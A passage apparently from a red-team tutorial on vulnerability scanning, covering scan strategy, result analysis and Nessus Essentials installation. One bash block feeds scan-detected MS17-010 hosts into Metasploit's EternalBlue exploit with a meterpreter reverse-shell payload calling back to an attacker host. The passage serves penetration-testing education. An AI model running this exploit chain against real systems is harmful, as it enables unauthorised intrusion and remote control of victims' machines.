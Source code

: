 2. **Scan Execution Strategy**:
   - Scheduled scans outside business hours
   - Segmented network scanning to reduce impact
   - Used credentials for authenticated scanning where possible
   - Monitored scan progress to adjust parameters as needed

3. **Result Analysis and Exploitation**:
   - Identified multiple vulnerable web applications on DMZ servers
   - Discovered unpatched Windows systems with MS17-010 vulnerabilities
   - Located a database server with default credentials
   - Found network devices with outdated firmware

4. **Leveraging Results for Penetration**:
   ```bash
   # Extract potential MS17-010 targets
   xmlstarlet sel -t -m "//result[contains(nvt/name, 'MS17-010')]" \
     -v "host" -n scan_results.xml > eternal_blue_targets.txt
   
   # Pass to exploitation framework
   msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue;
   set RHOSTS file:eternal_blue_targets.txt;
   set PAYLOAD windows/x64/meterpreter/reverse_tcp;
   set LHOST 10.0.0.5;
   run"
   ```

This example demonstrates the power of integrating automated scanning with targeted exploitation for efficient red team operations.

## Nessus Essentials: Professional Vulnerability Scanning

Nessus, developed by Tenable, is one of the most widely used vulnerability scanners. Nessus Essentials (formerly Nessus Home) provides a free version with limitations that is still valuable for red team operations.

### Installation

```bash
# Download the latest Nessus package from https://www.tenable.com/downloads/nessus
# For Debian-based systems:
dpkg -i Nessus-*.deb

# Start the Nessus service
systemctl start nessusd
```

Access the web interface at `https://localhost:8834` to complete setup.

### Effective Scanning Strategies

1. **Scan Template Selection**:
   - Basic Network Scan: For general vulnerability assessment
   - Advanced Scan: For more thorough testing
   - Host Discovery: For initial network mapping
